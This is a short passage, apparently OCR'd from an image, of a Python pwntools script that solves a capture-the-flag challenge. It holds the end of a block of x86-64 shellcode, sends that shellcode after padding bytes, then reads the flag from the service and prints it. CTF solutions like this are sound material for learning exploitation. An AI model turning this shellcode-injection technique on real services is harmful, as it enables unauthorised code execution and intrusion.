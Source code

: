 ```python
    pop rdx
    push rax
    push rsi
    mov rsi, rsp
    push 0x14
    pop rax
    syscall
    '''
    sh.sendline(b'0'*7 + asm(code))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')
```
